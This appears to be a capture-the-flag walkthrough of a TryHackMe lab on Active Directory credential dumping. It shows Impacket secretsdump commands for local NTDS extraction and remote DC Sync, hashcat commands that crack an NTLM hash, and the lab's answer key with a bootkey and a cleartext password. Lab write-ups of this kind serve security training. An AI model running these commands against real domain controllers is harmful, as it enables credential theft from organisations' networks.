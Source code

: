      ![image](https://github.com/user-attachments/assets/3bf2ec8a-0e0b-42d0-a665-c1c28c253c90)

4. Extract Hashes with `Impacket`

        python3 secretsdump.py -security SECURITY -system SYSTEM -ntds ntds.dit LOCAL
   
    - Boot Key will be displayed in the output (needed for decryption).

    ![image](https://github.com/user-attachments/assets/e6bd2af2-c7b9-4a82-9921-f76eb8803714)

6. Find the `bk-admin` Password

  - Search the dumped hashes for `bk-admin`'s `NTLM` hash.
  
  ![image](https://github.com/user-attachments/assets/11abfee0-ed1c-4879-beb5-f03b3ab8b860)

  - Crack it with `Hashcat`:

        hashcat -m 1000 bk-admin_ntlm_hash /usr/share/wordlists/rockyou.txt

    ![image](https://github.com/user-attachments/assets/24e3a94f-9650-4b1d-98ef-a1d8200fc428)

### 2. Remote DC Sync (If You Have Credentials)
- Run `secretsdump.py` with Admin Credentials

      python3 secretsdump.py -just-dc thm.red/thm@<DC_IP> -outputfile hashes.txt

    This dumps all domain hashes (including bk-admin).

- Find `bk-admin`'s Hash

  - Open hashes.txt and locate the line:

        thm.red\bk-admin:1106:aad3b435b51404eeaad3b435b51404ee:[NTLM_HASH]:::

  - Crack the `NTLM` Hash

        hashcat -m 1000 [NTLM_HASH] /usr/share/wordlists/rockyou.txt
    



<br>

## _Answers_

Apply the technique discussed in this task to dump the NTDS file locally and extract hashes. What is the target system bootkey value? Note: Use thm.red/thm as an Active Directory user since it has administrator privileges!

          
          0x36c8d26ec0df8b23ce63bcefa6e2d821

![image](https://github.com/user-attachments/assets/b898620a-d73c-472a-b27b-61438e90f06f)

        
What is the clear-text password for the `bk-admin` username?

          Passw0rd123
